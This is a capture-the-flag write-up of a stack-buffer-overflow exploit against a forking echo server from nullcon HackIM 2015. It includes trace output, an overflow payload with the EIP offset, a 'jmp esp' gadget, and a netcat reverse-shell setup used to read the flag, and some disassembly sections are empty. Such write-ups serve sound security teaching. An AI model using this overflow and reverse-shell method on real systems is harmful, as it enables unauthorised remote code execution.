



# nullcon HackIM 2015: Exploitation 100

**Category:** Exploitation
**Points:** 100
**Author:**
**Description:**

> 54.163.248.69:9000
>
>	[Binary](srv1.tar.gz)

## Write-up

This writeup is based on following writeups:

* <https://ctf-team.vulnhub.com/hackim-2015-exploit-100/>
* <http://v0ids3curity.blogspot.in/2015/01/hackim-ctf-2014-exploitation-1.html>

### Meta

Keywords:

* Stack Overflow - `jump to register`
* Reverse Shell

We are given a gzipped compressed tar archive that we first extract using `tar xvf srv1.tar.gz` to find a binary, `srv`.

This binary is a stripped 32bit ELF for i386 Linux:

```bash
$ file srv
srv: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=cd9e665e7eaca837dce5d0e16627aad2c64866a2, stripped
```

Running the binary:

```bash
$ ./srv
<input>
```

Nothing obvious happens, so we apply `ltrace` to it to find interesting library calls:

```bash
$ ltrace ./srv
__libc_start_main(0x8048de1, 1, 0xff8bcff4, 0x8048df0 <unfinished ...>
socket(2, 1, 6)                                                                                               = 3
setsockopt(3, 1, 2, 0xff8bcf10)                                                                               = 0
inet_addr("0.0.0.0")                                                                                          = 0
htons(9000, 1, 2, 0xff8bcf10)                                                                                 = 0x2823
bind(3, 0xff8bcf28, 16, 0xff8bcf10)                                                                           = 0
listen(3, 100, 16, 0xff8bcf10)                                                                                = 0
signal(SIGCHLD, 0x1)                                                                                          = 0
accept(3, 0xff8bcf18, 0xff8bcf14, 0xff8bcf10 <no return ...>
--- SIGWINCH (Window changed) ---
```

Looks like the binary forks/creates a child that listens on port `9000`. We run `srv` without `ltrace` and connect to the port:

```bash
$ nc localhost 9000
fash$ help
Error - unsupported command
$ nc localhost 9000
fash$ echo hi
echo: hi
```

The father also speaks:

```bash
$ ./srv
Received client from 127.0.0.1:37372
Processing client: pid: 2388 socket: 4
Received client from 127.0.0.1:37373
Processing client: pid: 2390 socket: 4
```

Our first try is to cause a stack overflow:

```bash
$ python -c 'print "echo "+"A"*300' | nc localhost 9000
fash$ $
```

Well it seems it crashes, but gives us no output. As [this writeup suggests](https://ctf-team.vulnhub.com/hackim-2015-exploit-100/) you might be able to create a gdb core dump, but I am not sure how to do it in this case - if you know it, please open an issue or tell me :). If you try other Vulnerabilities such as Format String Vulnerability or other, you don't get far.

To debug more, we apply `strace -f` and `ltrace -f` (`f`ollow childs, too) to the binary and try our stack overflow again:

```bash
$ python -c 'print "echo "+"A"*300' | nc localhost 9000
fash$ $
```

`ltrace` output:

```bash
$ ltrace -f ./srv 
[pid 2540] __libc_start_main(0x8048de1, 1, 0xff8882d4, 0x8048df0 <unfinished ...>
[pid 2540] socket(2, 1, 6)                                                                                    = 3
[pid 2540] setsockopt(3, 1, 2, 0xff8881f0)                                                                    = 0
[pid 2540] inet_addr("0.0.0.0")                                                                               = 0
[pid 2540] htons(9000, 1, 2, 0xff8881f0)                                                                      = 0x2823
[pid 2540] bind(3, 0xff888208, 16, 0xff8881f0)                                                                = 0
[pid 2540] listen(3, 100, 16, 0xff8881f0)                                                                     = 0
[pid 2540] signal(SIGCHLD, 0x1)                                                                               = 0
[pid 2540] accept(3, 0xff8881f8, 0xff8881f4, 0xff8881f0)                                                      = 4
[pid 2540] ntohs(2962)                                                                                        = 37387
[pid 2540] inet_ntoa({ 0x100007f })                                                                           = "127.0.0.1"
[pid 2540] printf("Received client from %s:%d\n", "127.0.0.1", 37387Received client from 127.0.0.1:37387
)                                         = 37
[pid 2540] fork()                                                                                             = 2543
[pid 2540] close(4)                                                                                           = 0
[pid 2540] accept(3, 0xff8881f8, 0xff8881f4, 0xff8881f0 <unfinished ...>
[pid 2543] <... fork resumed> )                                                                               = 0
[pid 2543] getpid()                                                                                           = 2543
[pid 2543] printf("Processing client: pid: %d socke"..., 2543, 4Processing client: pid: 2543 socket: 4
)                                             = 39
[pid 2543] close(3)                                                                                           = 0
[pid 2543] strlen("fash$ ")                                                                                   = 6
[pid 2543] send(4, 0x8048eac, 6, 0)                                                                           = 6
[pid 2543] select(5, 0xff886120, 0, 0)                                                                        = 1
[pid 2543] memset(0xff8861a0, '\0', 8192)                                                                     = 0xff8861a0
[pid 2543] recv(4, 0xff8861a0, 8191, 0)                                                                       = 306
[pid 2543] strchr("echo AAAAAAAAAAAAAAAAAAAAAAAAAAA"..., ' ')                                                 = " AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...
[pid 2543] strcmp("echo", "echo")                                                                             = 0
[pid 2543] memset(0xff886070, '\0', 100)                                                                      = 0xff886070
[pid 2543] sprintf("echo: AAAAAAAAAAAAAAAAAAAAAAAAAA"..., "echo: %s\n", "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...) = 308
[pid 2543] strlen("echo: AAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                                      = 308
[pid 2543] send(0x41414141, 0xff886070, 308, 0)                                                               = 0xffffffff
[pid 2543] --- SIGSEGV (Segmentation fault) ---
[pid 2543] +++ killed by SIGSEGV +++
[pid 2540] --- SIGWINCH (Window changed) ---
```

`strace` output:

```bash
$ strace -f ./srv
execve("./srv", ["./srv"], [/* 31 vars */]) = 0
[ Process PID=2534 runs in 32 bit mode. ]
brk(0)                                  = 0x860c000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff7790000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=116837, ...}) = 0
mmap2(NULL, 116837, PROT_READ, MAP_PRIVATE, 3, 0) = 0xfffffffff7773000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib32/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\300\233\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1742588, ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff7772000
mmap2(NULL, 1747580, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xfffffffff75c7000
mmap2(0xf776c000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1a5000) = 0xfffffffff776c000
mmap2(0xf776f000, 10876, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xfffffffff776f000
close(3)                                = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff75c6000
set_thread_area(0xffaed260)             = 0
mprotect(0xf776c000, 8192, PROT_READ)   = 0
mprotect(0x804a000, 4096, PROT_READ)    = 0
mprotect(0xf77b2000, 4096, PROT_READ)   = 0
munmap(0xf7773000, 116837)              = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
setsockopt(3, SOL_SOCKET, SO_REUSEADDR, [1], 4) = 0
bind(3, {sa_family=AF_INET, sin_port=htons(9000), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 100)                          = 0
rt_sigaction(SIGCHLD, {SIG_IGN, [CHLD], SA_RESTART}, {SIG_DFL, [], 0}, 8) = 0
accept(3, {sa_family=AF_INET, sin_port=htons(37386), sin_addr=inet_addr("127.0.0.1")}, [16]) = 4
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 23), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff778f000
write(1, "Received client from 127.0.0.1:3"..., 37Received client from 127.0.0.1:37386
) = 37
clone(child_stack=0, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0) = 2537
close(4)                                = 0
accept(3, Process 2537 attached
 <unfinished ...>
[pid  2537] write(1, "Processing client: pid: 2537 soc"..., 39Processing client: pid: 2537 socket: 4
) = 39
[pid  2537] close(3)                    = 0
[pid  2537] send(4, "fash$ ", 6, 0)     = 6
[pid  2537] select(5, [4], NULL, NULL, {10, 0}) = 1 (in [4], left {9, 990649})
[pid  2537] recv(4, "echo AAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 8191, 0) = 306
[pid  2537] send(1094795585, "echo: AAAAAAAAAAAAAAAAAAAAAAAAAA"..., 308, 0) = -1 EBADF (Bad file descriptor)
[pid  2537] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
[pid  2537] +++ killed by SIGSEGV (core dumped) +++
<... accept resumed> 0xffaed358, [16])  = ? ERESTARTSYS (To be restarted if SA_RESTART is set)
--- SIGWINCH {si_signo=SIGWINCH, si_code=SI_KERNEL} ---
accept(3,
```

We can see following information:

* `ltrace` tells us the flow of consecutive library calls:
  * Fill memory space at `0xff8861a0` of size `8192` with zero byte characters.
  * Receive `8191` bytes from file descriptor `4` (Most likely our client connection) and store it into `0xff8861a0`
  * Locate the character ` ` (space) in our input (`strchr`) and compare the preceding characters with `echo` (`strcmp`)
  * Fill memory space at `0xff886070` of size `100` with zero byte characters
  * Write "echo " + input again into a buffer (most likely the last address `0xff886070`)
  * Determine the length of the resulting string with `strlen` and send back to us
  * Stack Overflow is happening when providing too much input
* `strace` tells us that we tried to access the address `0x41414141` (`si_addr`), which triggered a Segfault Trap `SIGSEGV`:
  * `SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141}`

After playing around with several offsets, we find that we need `118` bytes to overwrite `EIP`:

```bash
$ p -c 'print "echo "+"A"*118+"BBBB"' | nc localhost 9000
fash$
```

`strace -f srv` output (look at `si_addr`):

```bash
[...]
[pid  2987] close(3)                    = 0
[pid  2987] send(4, "fash$ ", 6, 0)     = 6
[pid  2987] select(5, [4], NULL, NULL, {10, 0}) = 1 (in [4], left {9, 994064})
[pid  2987] recv(4, "echo AAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 8191, 0) = 128
[pid  2987] send(2570, "echo: AAAAAAAAAAAAAAAAAAAAAAAAAA"..., 130, 0) = -1 EBADF (Bad file descriptor)
[pid  2987] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
[pid  2987] +++ killed by SIGSEGV (core dumped) +++
<... accept resumed> 0xffeb7018, [16])  = ? ERESTARTSYS (To be restarted if SA_RESTART is set)
--- SIGWINCH {si_signo=SIGWINCH, si_code=SI_KERNEL} ---
```


Reversing the binary with `radare2` yields deeper results as having a quick look at `strace` and `ltrace`:

First, print all functions determined by `radare2`:

```bash
[0x080487b0]> aa
[0x080487b0]> afl | sort -k1 | column -t
0x08048600  16   2   sym.imp.setsockopt
0x08048610  16   2   sym.imp.strcmp
0x08048620  16   2   sym.imp.printf
0x08048630  16   2   sym.imp.inet_ntoa
0x08048640  16   2   sym.imp.signal
0x08048650  16   2   sym.imp.select
0x08048660  16   2   sym.imp.htons
0x08048670  16   2   sym.imp.accept
0x08048680  16   2   sym.imp.getpid
0x080486a0  16   2   sym.imp.exit
0x080486b0  16   2   sym.imp.strchr
0x080486c0  16   2   sym.imp.strlen
0x080486d0  16   2   sym.imp.__libc_start_main
0x080486e0  16   2   sym.imp.bind
0x080486f0  16   2   sym.imp.memset
0x08048700  16   2   sym.imp.fork
0x08048710  16   2   sym.imp.listen
0x08048720  16   2   sym.imp.ntohs
0x08048730  16   2   sym.imp.sprintf
0x08048740  16   2   sym.imp.socket
0x08048750  16   2   sym.imp.inet_addr
0x08048760  16   2   sym.imp.shutdown
0x08048770  16   2   sym.imp.recv
0x08048780  16   2   sym.imp.close
0x08048790  16   2   sym.imp.__assert_fail
0x080487a0  16   2   sym.imp.send
0x080487b0  34   1   entry0
0x08048c00  481  10  fcn.08048c00
0x08048de1  13   1   main
```

Nonimported functions (those without `imp`) seem to be `fcn.08048c00` and `main`. `entry0` is our entry point, which usually calls `__libc_start_main `:

If you look very closely, you can notice that the binary count (second column) and function offsets (first column) don't match up.
This means that `radare2` was not able to find all functions in the stripped binary.
Add `34` (`0x22`) bytes to the address for `entry0` (`0x080487b0`) and you get `0x80487d2` which is not equal to the next function offset `0x08048c00`.



Decompiling `main`:


`main` just calls `fcn.08048c00`:



`fcn.08048c00` jumps to another unknown address, `0x80489ef`. Decompiling 120 instructions `pd 100`:



We notice the following:

* `fcn.080489ef` most likely ends with the `ret` instruction at `0x08048b9a`
* Before that, it jmps to `0x8048908`

Decompiling `fcn.08048908` (this time decompiling number of bytes `pD 231`:


We notice that this most likely is our child's code.

`gdb-peda` tells us that (almost) no binary-side securities have been enabled:

```bash
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

However, the server could have enabled [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), and since we can't leak any stack addresses and don't know offsets to imported libraries (none provided), we have to find an interesting gadget in the binary itself to jump to.

As the [Wikipedia entry for Buffer Overflow](https://en.wikipedia.org/wiki/Buffer_overflow#The_jump_to_address_stored_in_a_register_technique) suggests, something like `jmp esp` - aka jumping to a modified or known register that contains our shellcode would be nice.

Luckily, we find such a gadget at address `0x080488b0` using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget):

```bash
$ ROPgadget --binary ./srv --only 'jmp'
Gadgets information
============================================================
0x0804913b : jmp ecx
0x08049093 : jmp edi
0x080488b0 : jmp esp

Unique gadgets found: 3
```

Confirm it with `radare2`:


To get the flag, we combine all our gathered knowledge:

* Overflow the buffer with `118` bytes
* Force the program to jump to our shellcode by supplying the address `0x080488b0` for `jmp esp` to `EIP`
* Find a suitable shellcode

Regarding the shellcode, we cannot use the standard shellcode provided by `pwntools`' `shellcraft` like [this python script](./solve-1.py):

```bash
$ PS1='localshell $ '
localshell $ python solve-1.py
[+] Opening connection to localhost on port 9000: Done
fash$ 
[*] Closed connection to localhost port 9000
```

The shell appears on the wrong side, namely on our server, `srv`:

```bash
$ PS1='remoteserver $ '
remoteserver $ ./srv
Received client from 127.0.0.1:37405
Processing client: pid: 3112 socket: 4
$ ls
solve-1.py  srv  srv1.tar.gz
```

We have to force the program to give us shell using another method: Opening a backdoor using a reverse shell. See [here](http://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat/) and [here](http://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/) how it works. Effectively, you switch server and client, e.g. to avoid filtered ports:

* First, listen on your local machine on a given port, e.g. `netcat -l 127.1.1.1 -vp 11111`
* Then, force the remote program to contact your local machine and execute the shellcode on successful contact, essentially providing a shell

I found [this tiny reverse shell on shell-storm](http://shell-storm.org/shellcode/files/shellcode-838.php) and modified it to fit my needs in [this python code](./solve-2.py).

Listen on our local machine:

```bash
$ PS1='localmachine $ '
localmachine $ netcat -l 127.1.1.1 -vp 11111
Listening on [127.1.1.1] (family 0, port 11111)
```

The server runs on the remote machine:

```bash
$ PS1='remotemachine $ '
remotemachine $ ./srv
```

And we run our exploit from another terminal at our local machine:

```bash
$ PS1='exploiter $ '
exploiter $ python solve-2.py
\x7f +g
[+] Opening connection to localhost on port 9000: Done
fash$ 
[*] Closed connection to localhost port 9000
exploiter $
```

Back to `srv`, we see a connection:

```bash
remotemachine $ ./srv
Received client from 127.0.0.1:37411
Processing client: pid: 3352 socket: 4
```

And if we type something into our `netcat` victim listener, we have a connection (for testing purposes from `127.0.01` port `58956` ) and thus a shell.

Now, we can execute commands!

```bash
Connection from [127.0.0.1] port 11111 [tcp/*] accepted (family 2, sport 58956)
ls
flag.txt
solve-1.py
solve-2.py
srv
srv1.tar.gz
cat flag.txt
aleph1-to-the-rescue++
localmachine $
```

The flag is `aleph1-to-the-rescue++`!

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/hackim-2015-exploit-100/>
* <http://v0ids3curity.blogspot.in/2015/01/hackim-ctf-2014-exploitation-1.html>
* [Japanese](http://toriaezukaite.blogspot.de/2015/01/hackim-2015-exploitation-question-1.html)
